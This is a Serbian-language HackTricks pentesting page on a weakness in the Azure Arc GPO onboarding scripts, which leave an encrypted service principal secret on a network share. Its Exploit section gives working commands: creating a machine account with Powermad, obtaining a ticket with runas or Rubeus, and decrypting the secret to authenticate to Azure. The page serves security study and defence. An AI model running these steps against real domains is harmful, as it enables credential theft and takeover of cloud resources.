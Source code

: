 # Az - Arc ranjivi GPO Deploy Script

{{#include ../../../banners/hacktricks-training.md}}

### Identifikacija problema

Azure Arc omogućava integraciju novih internih servera (pridruženih domena) u Azure Arc koristeći metodu Group Policy Object. Da bi se to olakšalo, Microsoft pruža alat za implementaciju potreban za pokretanje procedure onboardinga. Unutar ArcEnableServerGroupPolicy.zip datoteke nalaze se sledeći skripti: DeployGPO.ps1, EnableAzureArc.ps1, i AzureArcDeployment.psm1.

Kada se izvrši, DeployGPO.ps1 skripta obavlja sledeće radnje:

1. Kreira Azure Arc Servers Onboarding GPO unutar lokalnog domena.
2. Kopira EnableAzureArc.ps1 skriptu za onboarding na određeni mrežni deo kreiran za proces onboardinga, koji takođe sadrži Windows instalacioni paket.

Kada se pokreće ova skripta, sys admini treba da obezbede dva glavna parametra: **ServicePrincipalId** i **ServicePrincipalClientSecret**. Pored toga, potrebni su i drugi parametri kao što su domen, FQDN servera koji hostuje share, i naziv share-a. Dodatne informacije kao što su tenant ID, resource group, i druge neophodne informacije takođe moraju biti obezbeđene skripti.

Enkriptovana tajna se generiše u AzureArcDeploy direktorijumu na određenom share-u koristeći DPAPI-NG enkripciju. Enkriptovana tajna se čuva u datoteci pod nazivom encryptedServicePrincipalSecret. Dokazi o ovome mogu se naći u DeployGPO.ps1 skripti, gde se enkripcija vrši pozivanjem ProtectBase64 sa $descriptor i $ServicePrincipalSecret kao ulazima. Deskriptor se sastoji od SID-ova grupe Domain Computer i Domain Controller, osiguravajući da se ServicePrincipalSecret može dekriptovati samo od strane grupe sigurnosti Domain Controllers i Domain Computers, kako je navedeno u komentarima skripte.
```bash
# Encrypting the ServicePrincipalSecret to be decrypted only by the Domain Controllers and the Domain Computers security groups
$DomainComputersSID = "SID=" + $DomainComputersSID
$DomainControllersSID = "SID=" + $DomainControllersSID
$descriptor = @($DomainComputersSID, $DomainControllersSID) -join " OR "
Import-Module $PSScriptRoot\AzureArcDeployment.psm1
$encryptedSecret = [DpapiNgUtil]::ProtectBase64($descriptor, $ServicePrincipalSecret)
```
### Exploit

Imamo sledeće uslove:

1. Uspešno smo penetrirali unutrašnju mrežu.
2. Imamo mogućnost da kreiramo ili preuzmemo kontrolu nad računom računara unutar Active Directory.
3. Otkrili smo mrežno deljenje koje sadrži AzureArcDeploy direktorijum.

Postoji nekoliko metoda za dobijanje računa računara unutar AD okruženja. Jedna od najčešćih je iskorišćavanje kvote računa računara. Druga metoda uključuje kompromitovanje računa računara kroz ranjive ACL-ove ili razne druge pogrešne konfiguracije.
```bash
Import-MKodule powermad
New-MachineAccount -MachineAccount fake01 -Password $(ConvertTo-SecureString '123456' -AsPlainText -Force) -Verbose
```
Kada se dobije nalog mašine, moguće je autentifikovati se koristeći ovaj nalog. Možemo ili koristiti runas.exe komandu sa netonly flagom ili koristiti pass-the-ticket sa Rubeus.exe.
```bash
runas /user:fake01$ /netonly powershell
```

```bash
.\Rubeus.exe asktgt /user:fake01$ /password:123456 /prr
```
Čuvajući TGT za naš korisnički nalog u memoriji, možemo koristiti sledeći skript za dešifrovanje tajne servisnog principala.
```bash
Import-Module .\AzureArcDeployment.psm1

$encryptedSecret = Get-Content "[shared folder path]\AzureArcDeploy\encryptedServicePrincipalSecret"

$ebs = [DpapiNgUtil]::UnprotectBase64($encryptedSecret)
$ebs
```
Alternativno, možemo koristiti [SecretManagement.DpapiNG](https://github.com/jborean93/SecretManagement.DpapiNG).

U ovom trenutku, možemo prikupiti preostale informacije potrebne za povezivanje sa Azure-om iz ArcInfo.json datoteke, koja se čuva na istom mrežnom deljenju kao i encryptedServicePrincipalSecret datoteka. Ova datoteka sadrži detalje kao što su: TenantId, servicePrincipalClientId, ResourceGroup i još mnogo toga. Sa ovim informacijama, možemo koristiti Azure CLI za autentifikaciju kao kompromitovani servisni principal.

## References

- [https://xybytes.com/azure/Abusing-Azure-Arc/](https://xybytes.com/azure/Abusing-Azure-Arc/)

{{#include ../../../banners/hacktricks-training.md}}
